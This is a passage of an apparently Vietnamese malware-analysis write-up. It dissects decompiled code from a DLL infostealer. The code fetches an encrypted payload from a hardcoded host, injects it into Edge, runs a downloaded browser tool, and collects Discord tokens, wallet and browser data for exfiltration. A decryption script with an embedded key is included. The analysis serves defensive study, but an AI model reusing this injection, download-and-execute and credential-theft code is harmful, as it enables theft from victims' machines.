
- Trong DLLMain, malware tại 1 thread mới và cho thread đó bắt đầu thực thi tại hàm Run.
- Hàm Run:
```c++
__int64 __fastcall Run(LPVOID lpThreadParameter)
{
  DWORD msedgePid; // [rsp+50h] [rbp-1D8h]
  infoStruct info_struct; // [rsp+58h] [rbp-1D0h] BYREF
  CHAR *lpszUrl; // [rsp+70h] [rbp-1B8h]
  _WORD *decryptedCaptchaBinPtr; // [rsp+78h] [rbp-1B0h]
  unsigned __int8 *msedge.exe; // [rsp+80h] [rbp-1A8h]
  struct _PROCESS_INFORMATION ProcessInformation; // [rsp+88h] [rbp-1A0h] BYREF
  struct _STARTUPINFOA StartupInfo; // [rsp+A0h] [rbp-188h] BYREF
  CHAR CommandLine[256]; // [rsp+110h] [rbp-118h] BYREF

  lpszUrl = "http://192.168.59.152/user_profiles_photo/captcha.bin";
  msedge.exe = "msedge.exe";
  fnDownloadFile((__int64)&info_struct, "http://192.168.59.152/user_profiles_photo/captcha.bin");
  if ( fnCheckStartEndAddr(&info_struct) )
    return fnFreeMem((__int64)&info_struct);
  decryptedCaptchaBinPtr = (_WORD *)fnDereferencePtr(&info_struct);// The first 8 bytes at the addr pointed by infoStruct is the addr of decrypted payload
  if ( *decryptedCaptchaBinPtr != 'ZM' )        // Check if decrypted data starts with 'MZ'
    return fnFreeMem((__int64)&info_struct);
  msedgePid = fnGetProcIdByName(msedge.exe);    // Get PID of msedge.exe
  if ( !msedgePid )                             // If msedge.exe isnt started, start the process
  {
    StartupInfo.cb = 104;
    memset(&StartupInfo.lpReserved, 0, 0x60u);
    fnSnPrintf((__int64)CommandLine, (__int64)"C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe");
    if ( !CreateProcessA(0, CommandLine, 0, 0, 0, 0, 0, 0, &StartupInfo, &ProcessInformation) )
      return fnFreeMem((__int64)&info_struct);
    msedgePid = ProcessInformation.dwProcessId;
    CloseHandle(ProcessInformation.hProcess);
    CloseHandle(ProcessInformation.hThread);
  }
  fnDllInfectToEdge(msedgePid, &info_struct);
  return fnFreeMem((__int64)&info_struct);
}
```
- Hàm này tải về tệp captcha.bin từ url hxxp[://]192[.]168[.]59[.]152/user_profiles_photo/captcha[.]bin, decrypt tệp rồi ghi địa chỉ bắt đầu và địa chỉ kết thúc của vùng memory chứa nội dung đã decrypt vào 1 struct như sau:
```c++
struct infoStruct {
	QWORD *payloadStartAddr;
	QWORD *payloadEndAddr;
}
```

- Sau đó check xem đã decrypt thành công chưa bằng cách so sánh 2 bytes đầu với signature 'MZ' của PE file:
```
if ( *decryptedCaptchaBinPtr != 'ZM' )        
    return fnFreeMem((__int64)&info_struct);
```
- Tiếp theo, malware lấy PID của msedge.exe (nếu tiến trình edge chưa tồn tại, khởi chạy 1 tiến trình edge mới), gọi hàm fnDllInfectToEdge với 2 tham số là PID của edge và struct trên để inject DLL vào edge

- Hàm tải về captcha.bin:
```cpp
__int64 __fastcall fnDownloadFile(infoStruct *info_struct, const CHAR *lpszUrl)
{
  const __m128i *payloadStartAddr; // rax
  __int64 payloadStartAddr_2; // rax
  DWORD dwNumberOfBytesRead; // [rsp+54h] [rbp-20C4h] BYREF
  PUCHAR plaintext; // [rsp+58h] [rbp-20C0h]
  int Buffer; // [rsp+60h] [rbp-20B8h] BYREF
  int v8; // [rsp+64h] [rbp-20B4h]
  ULONG ciphertextLen; // [rsp+68h] [rbp-20B0h]
  ULONG hFile[3]; // [rsp+6Ch] [rbp-20ACh] BYREF
  HINTERNET hInternet; // [rsp+78h] [rbp-20A0h]
  _BYTE data_1[24]; // [rsp+80h] [rbp-2098h] BYREF
  infoStruct data_; // [rsp+98h] [rbp-2080h] BYREF
  DWORD dwBufferLength; // [rsp+B0h] [rbp-2068h] BYREF
  __int64 v15; // [rsp+B8h] [rbp-2060h]
  PUCHAR ciphertext; // [rsp+C0h] [rbp-2058h]
  _BYTE v17[8]; // [rsp+C8h] [rbp-2050h] BYREF
  _BYTE v18[8]; // [rsp+D0h] [rbp-2048h] BYREF
  __m128i encryptedData; // [rsp+D8h] [rbp-2040h] BYREF
  __m128i pbTag; // [rsp+E8h] [rbp-2030h] BYREF
  _BYTE captchaBinContent[8192]; // [rsp+100h] [rbp-2018h] BYREF

  fnMemSet((__int64)data_1);
  fnMemSet((__int64)&data_);
  hInternet = InternetOpenA("Mozilla/5.0", INTERNET_OPEN_TYPE_PRECONFIG, 0, 0, 0);
  if ( hInternet )
  {
    *(_QWORD *)&hFile[1] = InternetOpenUrlA(hInternet, lpszUrl, 0, 0, 0x84000000, 0);
    if ( *(_QWORD *)&hFile[1] )
    {
      Buffer = 0;
      dwBufferLength = 4;
      HttpQueryInfoA(
        *(HINTERNET *)&hFile[1],
        HTTP_MAJOR_VERSION | HTTP_QUERY_CONTENT_TRANSFER_ENCODING | HTTP_QUERY_LINK | HTTP_QUERY_FLAG_NUMBER,
        &Buffer,
        &dwBufferLength,
        0);
      if ( Buffer == 200 )
      {
        dwNumberOfBytesRead = 0;
        v8 = 0;
        while ( InternetReadFile(*(HINTERNET *)&hFile[1], captchaBinContent, 0x2000u, &dwNumberOfBytesRead)
             && dwNumberOfBytesRead )
        {
          v15 = *(_QWORD *)sub_1800040B0((__int64)&data_, (__int64)v17);
          sub_1800031E0(
            (__int64 *)&data_,
            (__int64)v18,
            v15,
            (__int64)captchaBinContent,
            &captchaBinContent[dwNumberOfBytesRead]);
          v8 += dwNumberOfBytesRead;
        }
        InternetCloseHandle(*(HINTERNET *)&hFile[1]);
        InternetCloseHandle(hInternet);
        if ( !fnCheckStartEndAddr(&data_)
          && (unsigned __int64)fnCalculatePayloadSize(&data_) >= 0x1C
          && (payloadStartAddr = (const __m128i *)fnDereferencePtr(&data_),
              fnMemmove(&encryptedData, payloadStartAddr, 0xCu),
              payloadStartAddr_2 = fnDereferencePtr(&data_),
              fnMemmove(&pbTag, (const __m128i *)(payloadStartAddr_2 + 12), 0x10u),
              ciphertextLen = fnCalculatePayloadSize(&data_) - 28,
              ciphertext = (PUCHAR)(fnDereferencePtr(&data_) + 28),
              (plaintext = (PUCHAR)fnHeapAlloc(ciphertextLen)) != 0) )
        {
          hFile[0] = 0;
          if ( (unsigned __int8)fnDecrypt(
                                  (UCHAR *)&pbSecret,
                                  32u,
                                  (__int64)&encryptedData,
                                  12,
                                  ciphertext,
                                  ciphertextLen,
                                  plaintext,
                                  hFile,
                                  (__int64)&pbTag,
                                  16) )
            sub_1800030C0((__int64)data_1, (__int64)plaintext, (__int64)&plaintext[hFile[0]]);
          sub_18000C570(plaintext);
          sub_180003470((__int64)info_struct, (__int64)data_1);
          fnFreeMem((__int64)&data_);
          fnFreeMem((__int64)data_1);
          return (__int64)info_struct;
        }
        else
        {
          sub_180003470((__int64)info_struct, (__int64)data_1);
          fnFreeMem((__int64)&data_);
          fnFreeMem((__int64)data_1);
          return (__int64)info_struct;
        }
      }
      else
      {
        InternetCloseHandle(*(HINTERNET *)&hFile[1]);
        InternetCloseHandle(hInternet);
        sub_180003470((__int64)info_struct, (__int64)data_1);
        fnFreeMem((__int64)&data_);
        fnFreeMem((__int64)data_1);
        return (__int64)info_struct;
      }
    }
    else
    {
      InternetCloseHandle(hInternet);
      sub_180003470((__int64)info_struct, (__int64)data_1);
      fnFreeMem((__int64)&data_);
      fnFreeMem((__int64)data_1);
      return (__int64)info_struct;
    }
  }
  else
  {
    sub_180003470((__int64)info_struct, (__int64)data_1);
    fnFreeMem((__int64)&data_);
    fnFreeMem((__int64)data_1);
    return (__int64)info_struct;
  }
}
```
- Hàm trên thực hiện tải về tệp captcha.bin, tính toán lấy start address và end address của vùng memory chứa tệp, extract dữ liệu cần thiết từ tệp tải về (bao gồm nonce + tag) rồi truyền vào hàm decrypt, tệp captcha.bin có cấu trúc như sau: [12 bytes nonce][16 bytes tag][encrypted data]

- Hàm thực hiện decrypt tệp captcha.bin:
```cpp
__int64 __fastcall fnDecrypt(
        UCHAR *pbSecret,
        ULONG pbSecretLen,
        __int64 nonce,
        int nonceLen,
        PUCHAR ciphertext,
        ULONG ciphertextLen,
        PUCHAR plaintext,
        ULONG *hFile,
        __int64 pbTag,
        int tagLen)
{
  unsigned __int8 result; // [rsp+50h] [rbp-88h]
  ULONG pcbResult; // [rsp+58h] [rbp-80h] BYREF
  BCRYPT_ALG_HANDLE phAlgorithm; // [rsp+60h] [rbp-78h] BYREF
  BCRYPT_KEY_HANDLE phKey; // [rsp+68h] [rbp-70h] BYREF
  _BCRYPT_AUTHENTICATED_CIPHER_MODE_INFO pPaddingInfo; // [rsp+70h] [rbp-68h] BYREF

  phAlgorithm = 0;
  phKey = 0;
  result = 0;
  if ( !BCryptOpenAlgorithmProvider(&phAlgorithm, L"AES", 0, 0)
    && !BCryptSetProperty(phAlgorithm, L"ChainingMode", (PUCHAR)L"ChainingModeGCM", 32u, 0)
    && !BCryptGenerateSymmetricKey(phAlgorithm, &phKey, 0, 0, pbSecret, pbSecretLen, 0) )
  {
    fnMemset((LPVOID *)&pPaddingInfo, 0, 0x58u);
    pPaddingInfo.cbSize = 88;
    pPaddingInfo.dwInfoVersion = 1;
    pPaddingInfo.pbNonce = (PUCHAR)nonce;
    pPaddingInfo.cbNonce = nonceLen;
    pPaddingInfo.pbTag = (PUCHAR)pbTag;
    pPaddingInfo.cbTag = tagLen;
    pcbResult = 0;
    if ( !BCryptDecrypt(phKey, ciphertext, ciphertextLen, &pPaddingInfo, 0, 0, plaintext, ciphertextLen, &pcbResult, 0) )
    {
      *hFile = pcbResult;
      result = 1;
    }
  }
  if ( phKey )
    BCryptDestroyKey(phKey);
  if ( phAlgorithm )
    BCryptCloseAlgorithmProvider(phAlgorithm, 0);
  return result;
}
```
- Hàm trên thực hiện decrypt data sử dụng thuật toán AES-GCM với 32-byte key (biến pbSecret chứa address của key) được nhúng sẵn trong file và nonce + tag extract từ tệp captcha.bin sau khi tải về. Start address của data sau khi được decrypt được đặt vào tham số plaintext, bản thân hàm fnDecrypt trả về 1 nếu decrypt thành công, còn không trả về 0.
- Extract AES key từ tệp mal.dll và export captcha.bin trong wireshark sau đó viết 1 script python để decrypt tệp captcha.bin:
```python
from Crypto.Cipher import AES

with open('captcha.bin', 'rb') as f:
    content = f.read()

    key = b'\xd2\x97{\xb8\x17\x0b\xc2\xf4\xf3\xbd\xce\xb9\x1f\x0e\xcb\xacH\xd2\xbclh\xe5\xd3\xf15\xf56\n\xa2c\xe9\xd4'
    nonce = content[:12]
    tag = content[12:28]

    cipher = AES.new(key, AES.MODE_GCM, nonce)
    plaintext = cipher.decrypt_and_verify(content[28:], tag)

    with open('dump.dll', 'wb') as out:
        out.write(plaintext)
```
- Kết quả:



- Hàm fnDllInfectToEdge:
```c++
char __fastcall fnDllInfectToEdge(DWORD msedgePid, infoStruct *info_struct)
{
  const void *lpBuffer; // rax
  HMODULE hKernel32Dll; // rax
  HANDLE hMsedgeProc; // [rsp+40h] [rbp-188h]
  void *lpBaseAddress; // [rsp+48h] [rbp-180h]
  int i; // [rsp+50h] [rbp-178h]
  __int64 hFile; // [rsp+58h] [rbp-170h]
  WINERROR LastError; // [rsp+60h] [rbp-168h]
  DWORD ExitCode; // [rsp+64h] [rbp-164h] BYREF
  HANDLE hHandle; // [rsp+68h] [rbp-160h]
  DWORD ThreadId; // [rsp+70h] [rbp-158h] BYREF
  DWORD v13; // [rsp+74h] [rbp-154h]
  SIZE_T dwSize; // [rsp+78h] [rbp-150h]
  HMODULE (__stdcall *LoadLibraryA)(LPCSTR); // [rsp+80h] [rbp-148h]
  DWORD NumberOfBytesWritten; // [rsp+88h] [rbp-140h] BYREF
  DWORD nNumberOfBytesToWrite[4]; // [rsp+90h] [rbp-138h]
  CHAR FileName[272]; // [rsp+A0h] [rbp-128h] BYREF

  if ( fnCheckStartEndAddr(info_struct) )
    return 0;
  hMsedgeProc = OpenProcess(0x1FFFFFu, 0, msedgePid);
  if ( !hMsedgeProc )
    return 0;
  fnGenFilename((__int64)FileName, 260, "dll");
  DeleteFileA(FileName);
  hFile = -1;
  i = 0;
  while ( i < 5 && hFile == -1 )
  {
    hFile = (__int64)CreateFileA(
                       FileName,
                       GENERIC_WRITE,
                       FILE_READ_DATA,
                       0,
                       CREATE_ALWAYS,
                       FILE_READ_ATTRIBUTES | FILE_WRITE_ATTRIBUTES,
                       0);
    if ( hFile == -1 )
    {
      LastError = GetLastError();
      if ( LastError != ERROR_SHARING_VIOLATION && LastError != ERROR_ACCESS_DENIED )
        goto LABEL_15;
      fnGenFilename((__int64)FileName, 260, "dll");
      ++i;
      Sleep(0x64u);
    }
  }
  if ( hFile == -1 )
  {
LABEL_15:
    CloseHandle(hMsedgeProc);
    return 0;
  }
  *(_QWORD *)nNumberOfBytesToWrite = fnCalculatePayloadSize(info_struct);
  lpBuffer = (const void *)fnDereferencePtr(info_struct);
  if ( WriteFile((HANDLE)hFile, lpBuffer, nNumberOfBytesToWrite[0], &NumberOfBytesWritten, 0) )
  {
    CloseHandle((HANDLE)hFile);
    dwSize = fnStrlen((__int64)FileName) + 1;
    lpBaseAddress = VirtualAllocEx(hMsedgeProc, 0, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if ( lpBaseAddress )
    {
      if ( WriteProcessMemory(hMsedgeProc, lpBaseAddress, FileName, dwSize, 0)
        && (hKernel32Dll = GetModuleHandleA("kernel32.dll"),
            (LoadLibraryA = (HMODULE (__stdcall *)(LPCSTR))GetProcAddress(hKernel32Dll, "LoadLibraryA")) != 0) )
      {
        ThreadId = 0;
        hHandle = CreateRemoteThread(
                    hMsedgeProc,
                    0,
                    0,
                    (LPTHREAD_START_ROUTINE)LoadLibraryA,
                    lpBaseAddress,
                    0,
                    &ThreadId);
        if ( hHandle )
        {
          v13 = WaitForSingleObject(hHandle, 0x2710u);
          if ( v13 || (ExitCode = 0, GetExitCodeThread(hHandle, &ExitCode), ExitCode) )
          {
            VirtualFreeEx(hMsedgeProc, lpBaseAddress, 0, MEM_RELEASE);
            CloseHandle(hHandle);
            CloseHandle(hMsedgeProc);
            Sleep(0x7D0u);
            DeleteFileA(FileName);
            return 1;
          }
          else
          {
            VirtualFreeEx(hMsedgeProc, lpBaseAddress, 0, MEM_RELEASE);
            CloseHandle(hHandle);
            DeleteFileA(FileName);
            CloseHandle(hMsedgeProc);
            return 0;
          }
        }
        else
        {
          VirtualFreeEx(hMsedgeProc, lpBaseAddress, 0, MEM_RELEASE);
          DeleteFileA(FileName);
          CloseHandle(hMsedgeProc);
          return 0;
        }
      }
      else
      {
        VirtualFreeEx(hMsedgeProc, lpBaseAddress, 0, MEM_RELEASE);
        DeleteFileA(FileName);
        CloseHandle(hMsedgeProc);
        return 0;
      }
    }
    else
    {
      DeleteFileA(FileName);
      CloseHandle(hMsedgeProc);
      return 0;
    }
  }
  else
  {
    CloseHandle((HANDLE)hFile);
    DeleteFileA(FileName);
    CloseHandle(hMsedgeProc);
    return 0;
  }
}
```
- Hàm này ghi Dll đã decrypt vào 1 tệp trong thư mục temp, thực hiện Dll injection lên tiến trình msedge.exe, sau khi thực thi thành công, sleep 2s rồi xóa tệp vừa tạo
- Phân tích payload (dump.dll) được chèn vào msedge:
```cpp
__m128i *__fastcall StartAddress(LPVOID lpThreadParameter)
{
  CHAR *publicDocumentsFolderPath; // rax
  __m128i *lpBufferSystemInfo; // rax
  DWORD len; // eax
  __m128i *lpBufferSystemInfoCopy; // [rsp+20h] [rbp-B38h]
  __m128i *lpSystemInfoStr; // [rsp+28h] [rbp-B30h]
  __m128i *lpBufferProcesses; // [rsp+30h] [rbp-B28h]
  __m128i *cryptoWalletInfo; // [rsp+38h] [rbp-B20h]
  char *lpBuffer; // [rsp+40h] [rbp-B18h]
  discordData discordInfo; // [rsp+48h] [rbp-B10h] BYREF
  HANDLE hFindFile; // [rsp+58h] [rbp-B00h]
  const char *Unknown; // [rsp+60h] [rbp-AF8h]
  _BYTE dst_2[16]; // [rsp+68h] [rbp-AF0h] BYREF
  _BYTE dst[24]; // [rsp+78h] [rbp-AE0h] BYREF
  struct _WIN32_FIND_DATAA FindFileData; // [rsp+90h] [rbp-AC8h] BYREF
  CHAR stealerDataTxtPath[272]; // [rsp+1D0h] [rbp-988h] BYREF
  CHAR lpFileName[272]; // [rsp+2E0h] [rbp-878h] BYREF
  char lpBuffer_2[256]; // [rsp+3F0h] [rbp-768h] BYREF
  CHAR Buffer[272]; // [rsp+4F0h] [rbp-668h] BYREF
  CHAR FileName[272]; // [rsp+600h] [rbp-558h] BYREF
  CHAR filename[272]; // [rsp+710h] [rbp-448h] BYREF
  char command[272]; // [rsp+820h] [rbp-338h] BYREF
  char lpBuffer_3[512]; // [rsp+930h] [rbp-228h] BYREF

  fnDownloadAndExecuteChromeElevator();
  GetTempPathA(0x104u, Buffer);
  publicDocumentsFolderPath = fnGetPublicDocumentFolderPath();
  fnSnPrintf(stealerDataTxtPath, "%s\\stealer_data.txt", publicDocumentsFolderPath);
  lpBufferSystemInfo = fnHeapAlloc(1048576u);
  lpBufferSystemInfoCopy = lpBufferSystemInfo;
  if ( lpBufferSystemInfo )
  {
    ptrBufferCopy(lpBufferSystemInfo, 0, 0x100000u);
    lpSystemInfoStr = fnGetSystemInfo();
    len = strlen(lpSystemInfoStr->m128i_i8);
    fnWriteDataToFile(stealerDataTxtPath, lpSystemInfoStr, len);
    fnAppendDataToFile(stealerDataTxtPath, "\r\n\r\n");
    fnStrcat(lpBufferSystemInfoCopy, lpSystemInfoStr);
    fnStrcat(lpBufferSystemInfoCopy, "\r\n\r\n");
    fnFreeMem(lpSystemInfoStr);
    lpBufferProcesses = fnGetRunningProcesses();
    if ( lpBufferProcesses )
    {
      fnAppendDataToFile(stealerDataTxtPath, lpBufferProcesses->m128i_i8);
      fnAppendDataToFile(stealerDataTxtPath, "\r\n\r\n");
      fnStrcat(lpBufferSystemInfoCopy, lpBufferProcesses);
      fnStrcat(lpBufferSystemInfoCopy, "\r\n\r\n");
      fnFreeMem(lpBufferProcesses);
    }
    qmemcpy(dst_2, fnGetDiscordData(dst), sizeof(dst_2));
    qmemcpy(&discordInfo, dst_2, sizeof(discordInfo));
    if ( discordInfo.token && discordInfo.key )
    {
      fnAppendDataToFile(stealerDataTxtPath, "=== DISCORD DATA ===\r\n\r\n");
      fnAppendDataToFile(stealerDataTxtPath, "TOKEN:\r\n");
      fnAppendDataToFile(stealerDataTxtPath, discordInfo.token);
      fnAppendDataToFile(stealerDataTxtPath, "\r\n\r\nKEY:\r\n");
      fnAppendDataToFile(stealerDataTxtPath, discordInfo.key);
      fnAppendDataToFile(stealerDataTxtPath, "\r\n\r\n");
      fnStrcat(lpBufferSystemInfoCopy, "=== DISCORD DATA ===\r\n\r\n");
      fnStrcat(lpBufferSystemInfoCopy, "TOKEN:\r\n");
      fnStrcat(lpBufferSystemInfoCopy, discordInfo.token);
      fnStrcat(lpBufferSystemInfoCopy, "\r\n\r\nKEY:\r\n");
      fnStrcat(lpBufferSystemInfoCopy, discordInfo.key);
      fnStrcat(lpBufferSystemInfoCopy, "\r\n\r\n");
      fnFreeMem(discordInfo.token);
      fnFreeMem(discordInfo.key);
    }
    else
    {
      fnAppendDataToFile(stealerDataTxtPath, "=== DISCORD DATA ===\r\n\r\n[-] No Discord data found\r\n");
      fnStrcat(lpBufferSystemInfoCopy, "=== DISCORD DATA ===\r\n\r\n[-] No Discord data found\r\n");
    }
    cryptoWalletInfo = fnGetCryptoWalletInfo();
    if ( cryptoWalletInfo )
    {
      fnAppendDataToFile(stealerDataTxtPath, cryptoWalletInfo->m128i_i8);
      fnAppendDataToFile(stealerDataTxtPath, "\r\n\r\n");
      fnStrcat(lpBufferSystemInfoCopy, cryptoWalletInfo);
      fnStrcat(lpBufferSystemInfoCopy, "\r\n\r\n");
      fnFreeMem(cryptoWalletInfo);
    }
    fnSnPrintf(lpFileName, "%s\\Browsers", Buffer);
    if ( GetFileAttributesA_wrp(lpFileName) )
    {
      fnAppendDataToFile(stealerDataTxtPath, "\r\n=== BROWSER DATA ===\r\n\r\n");
      fnStrcat(lpBufferSystemInfoCopy, "\r\n=== BROWSER DATA ===\r\n\r\n");
      fnSnPrintf(FileName, "%s\\*", lpFileName);
      hFindFile = FindFirstFileA(FileName, &FindFileData);
      if ( hFindFile != -1LL )
      {
        do
        {
          if ( (FindFileData.dwFileAttributes & FILE_WRITE_EA) == 0 )
          {
            fnSnPrintf(filename, "%s\\%s", lpFileName, FindFileData.cFileName);
            lpBuffer = fnReadFile(filename);
            if ( lpBuffer )
            {
              fnSnPrintf(lpBuffer_2, "\r\n--- %s ---\r\n", FindFileData.cFileName);
              fnAppendDataToFile(stealerDataTxtPath, lpBuffer_2);
              fnAppendDataToFile(stealerDataTxtPath, lpBuffer);
              fnStrcat(lpBufferSystemInfoCopy, lpBuffer_2);
              fnStrcat(lpBufferSystemInfoCopy, lpBuffer);
              fnFreeMem(lpBuffer);
            }
          }
        }
        while ( FindNextFileA(hFindFile, &FindFileData) );
        FindClose(hFindFile);
      }
      fnSnPrintf(command, "rmdir /s /q \"%s\"", lpFileName);
      fnExecuteCmdCommand(command);
    }
    if ( fnGetTargetName() )
      Unknown = fnGetTargetName();
    else
      Unknown = "Unknown";
    fnSnPrintf(
      lpBuffer_3,
      "\r\n\r\n=== EXTRACTION SUMMARY ===\r\nTime: %s\r\nStatus: Complete\r\nTarget: %s\r\n",
      "22:23:46",
      Unknown);
    fnAppendDataToFile(stealerDataTxtPath, lpBuffer_3);
    fnStrcat(lpBufferSystemInfoCopy, lpBuffer_3);
    fnEncryptAndExfil(lpBufferSystemInfoCopy);
    fnFreeMem(lpBufferSystemInfoCopy);
    return (fnCleanUp)();
  }
  return lpBufferSystemInfo;
}
```
- Hàm trên chứa logic chính của stealer. Hàm tải và thực thi chromelevator.exe, sau đó thu thập nhiều loại thông tin nhạy cảm từ máy victim, bao gồm system information, running processes, Discord token/key, cryptocurrency wallet data và browser data. Dữ liệu được ghi vào stealer_data.txt, đồng thời cũng được lưu trong một buffer lớn. Cuối cùng, gọi fnEncryptAndExfil() để encrypt và exfil dữ liệu, sau đó giải phóng buffer đã cấp phát và thực hiện cleanup xóa toàn bộ tệp đã tạo. 

- Hàm fnDownloadAndExecuteChromeElevator(): 
```cpp
const void *fnDownloadAndExecuteChromeElevator()
{
  const void *lpBuffer_1; // rax
  DWORD nNumberOfBytesToWrite; // [rsp+50h] [rbp-968h] BYREF
  LPCVOID fileContent; // [rsp+58h] [rbp-960h]
  HANDLE hFile; // [rsp+60h] [rbp-958h]
  struct _PROCESS_INFORMATION ProcessInformation; // [rsp+68h] [rbp-950h] BYREF
  DWORD NumberOfBytesWritten; // [rsp+80h] [rbp-938h] BYREF
  struct _STARTUPINFOA StartupInfo; // [rsp+90h] [rbp-928h] BYREF
  CHAR chromeElevatorPath[272]; // [rsp+100h] [rbp-8B8h] BYREF
  CHAR tempPath[272]; // [rsp+210h] [rbp-7A8h] BYREF
  char outputPath_2[272]; // [rsp+320h] [rbp-698h] BYREF
  char outputPath[272]; // [rsp+430h] [rbp-588h] BYREF
  CHAR v11[272]; // [rsp+540h] [rbp-478h] BYREF
  CHAR CommandLine[336]; // [rsp+650h] [rbp-368h] BYREF
  _BYTE header[512]; // [rsp+7A0h] [rbp-218h] BYREF

  nNumberOfBytesToWrite = 0;
  GetTempPathA(0x104u, tempPath);
  lpBuffer_1 = fnDownloadFile("http://192.168.59.152/user_profiles_photo/chromelevator.exe", &nNumberOfBytesToWrite);
  fileContent = lpBuffer_1;
  if ( lpBuffer_1 && nNumberOfBytesToWrite > 3 )
  {
    fnSnPrintf((__int64)chromeElevatorPath, "%s\\chromelevator.exe", tempPath);
    hFile = CreateFileA(chromeElevatorPath, GENERIC_WRITE, 0, 0, CREATE_ALWAYS, FILE_WRITE_DATA, 0);
    if ( hFile != (HANDLE)-1LL )
    {
      WriteFile(hFile, fileContent, nNumberOfBytesToWrite, &NumberOfBytesWritten, 0);
      CloseHandle(hFile);
    }
    fnFreeMem((LPVOID)fileContent);
    fnSnPrintf((__int64)outputPath, "%s\\chromelevator_output", tempPath);
    fnSnPrintf((__int64)CommandLine, "\"%s\" --output=\"%s\"", chromeElevatorPath, outputPath);
    StartupInfo.cb = 104;
    memset(&StartupInfo.lpReserved, 0, 0x60u);
    StartupInfo.dwFlags = STARTF_USESHOWWINDOW;
    StartupInfo.wShowWindow = 0;
    if ( CreateProcessA(
           0,
           CommandLine,
           0,
           0,
           0,
           DETACHED_PROCESS | CREATE_NO_WINDOW,
           0,
           0,
           &StartupInfo,
           &ProcessInformation)
      || CreateProcessA(
           chromeElevatorPath,
           0,
           0,
           0,
           0,
           DETACHED_PROCESS | CREATE_NO_WINDOW,
           0,
           0,
           &StartupInfo,
           &ProcessInformation) )
    {
      WaitForSingleObject(ProcessInformation.hProcess, 0x7530u);
      CloseHandle(ProcessInformation.hProcess);
      CloseHandle(ProcessInformation.hThread);
    }
    DeleteFileA(chromeElevatorPath);
    fnSnPrintf((__int64)outputPath_2, "%s\\chromelevator_output", tempPath);
    lpBuffer_1 = (const void *)GetFileAttributesA_wrp(outputPath_2);
    if ( (_DWORD)lpBuffer_1 )
    {
      fnSnPrintf((__int64)header, "\r\n=== CHROME ELEVATOR OUTPUT ===\r\nDirectory: %s\r\n\r\n", outputPath_2);
      fnEncryptAndExfil(header);
      sub_180002E20(outputPath_2, 0);
      fnEncryptAndExfil("\r\n=== END OF CHROME ELEVATOR OUTPUT ===\r\n");
      fnSnPrintf((__int64)v11, "%s\\Browsers", tempPath);
      return (const void *)sub_1800017D0(outputPath_2, v11);
    }
  }
  else if ( fileContent )
  {
    return (const void *)fnFreeMem((LPVOID)fileContent);
  }
  return lpBuffer_1;
}
```
- Hàm này tải về và thực thi chromelevator.exe, ghi output ra 1 tệp trong thư mục temp, sau đó gọi hàm fnEncryptAndExfil() để encrypt và tuồn dữ liệu ra ngoài
- Hàm fnEncryptAndExfil():
```cpp
__int64 __fastcall fnEncryptAndExfil(BYTE *data)
{
  SOCKET (__stdcall *socket)(int, int, int); // [rsp+30h] [rbp-428h]
  signed int i; // [rsp+3Ch] [rbp-41Ch]
  u_long dataLen; // [rsp+40h] [rbp-418h] BYREF
  LPVOID ptrToExfilData; // [rsp+48h] [rbp-410h]
  int v6; // [rsp+50h] [rbp-408h]
  u_long argp; // [rsp+54h] [rbp-404h] BYREF
  char optval[4]; // [rsp+58h] [rbp-400h] BYREF
  int returnCode; // [rsp+5Ch] [rbp-3FCh]
  char optval_1[4]; // [rsp+60h] [rbp-3F8h] BYREF
  int v11; // [rsp+64h] [rbp-3F4h]
  int optlen; // [rsp+68h] [rbp-3F0h] BYREF
  char buf[4]; // [rsp+6Ch] [rbp-3ECh] BYREF
  timeval timeout; // [rsp+70h] [rbp-3E8h] BYREF
  size_t len; // [rsp+78h] [rbp-3E0h]
  in_addr name; // [rsp+80h] [rbp-3D8h] BYREF
  int pAddrBuf[3]; // [rsp+84h] [rbp-3D4h] BYREF
  fd_set writefds; // [rsp+90h] [rbp-3C8h] BYREF
  WSAData lpWSAData; // [rsp+2A0h] [rbp-1B8h] BYREF

  if ( !data )
    return 0;
  len = strlen(data);
  dataLen = len;
  ptrToExfilData = fnEncryptData(data, &dataLen, &pbSecret);
  if ( !ptrToExfilData )
